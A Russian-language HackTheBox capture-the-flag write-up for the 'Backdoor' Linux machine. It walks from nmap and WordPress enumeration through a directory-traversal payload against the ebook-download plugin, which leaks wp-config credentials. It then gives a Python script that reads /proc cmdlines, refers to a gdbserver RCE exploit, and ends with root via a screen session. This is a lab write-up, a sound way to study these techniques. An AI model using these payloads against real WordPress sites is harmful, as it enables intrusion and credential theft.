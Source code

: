 ```yaml
---
title: HTB Machine Backdoor
date: 2022-03-26 
categories: [writeup]
tags: [writeup, hackthebox, linux]
---
```



# Hackthebox Backdoor Writeup
## Box Info
![Machine Info](https://i.imgur.com/SgAhOB9.png)


## Enumeration
### Nmap scan

```bash
nmap -Pn -p- -sC -sV --min-rate=256 --min-parallelism=512 -v -oN nmap-full.txt 10.10.11.125 
```

```bash
55s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### port 80 - web
![Site view](https://i.imgur.com/48XVsUk.png)

При переходе на сайт выскакивает ошибка `Unknown host: backdoor.htb`, добавим сайт в `/etc/hosts` хосты


#### analyze wordpress


Запустим wpscan
нашли  `http://backdoor.htb/readme.html`

заглянем в обычные папки
`http://backdoor.htb/wp-content/themes` пустая страница, доступ есть но не отображается
`http://backdoor.htb/wp-content/plugins` видим плагин
`http://backdoor.htb/wp-content/uploads` есть доступ но файлов там нет

в plugins нашли `ebook-download/` версии `1.1`
на нее есть cve  Directory Traversal `https://www.exploit-db.com/exploits/39575`


## Getting Shell
### Directory Traversal
Exploit
`backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`

Узнаем креды для подключения
```php
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );
```
Подключаемся к машине

из `/etc/passwd` узнаем имя пользователя `user`

Информации больше нет, куда стучаться тоже непонятно.
Остается неизвестный порт 1337, значит какой то процесс запущен на машине
Из узявимостей есть только Directory Traversal, можно почитать системные файлы  из `/proc` и поискать процесс с командой выполнения 

в скрипте проблема, что он пишет в файл бинарно, лень разбираться как чинить, поэтому сделал через костыль
`strings output.txt > output_good.txt`

#todo закинуть в fli блок код
```python
url = "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../"


with open("output1.txt", "w") as file:
	for i in range(3000):
		resp = req.get(url + f"proc/{i}/cmdline")
		
		text = resp.text.split("<")[0]
		text = text.split("cmdline/")[1] if len(text.split("cmdline/")) > 1 else ""
		
		if(text != ""):
			result = f"FIND pid {i} command: {text}"
		
		else:
			result = f"pid {i} none"

		print(result)
		file.writelines(f"{result.encode('utf-8')}\n")
```

потом в Sublime при помощи простого регулярного выражения меняем
`pid \d{1,5} none\n` на пустоту и имеем
![Screen 1](https://i.imgur.com/S1g4y9T.png)

### Getting shell
Видим сервис gdbserver

Находим на него RCE `https://www.exploit-db.com/exploits/50539`

![Screen 2](https://i.imgur.com/ZsjrB4p.png)

![Screen 3](https://i.imgur.com/ktTVEGK.png)

добавил себя в SSH
```bash
ssh-keygen -t rsa
cat .ssh/id_rsa.pub

# скачал себе id_rsa и авторизировался по нему
chmod 700 id_rsa
ssh -i id_rsa user@backdoor.htb
```

### Getting ROOT
Запускаем linpeas

Помимо всего прочего видим сессию рута
![Screen 4](https://i.imgur.com/eUDrJcH.png)

смотрим сессии screen
`screen -ls`

подключаемся к сессии рута
`screen -X root/root`

Мы рут :)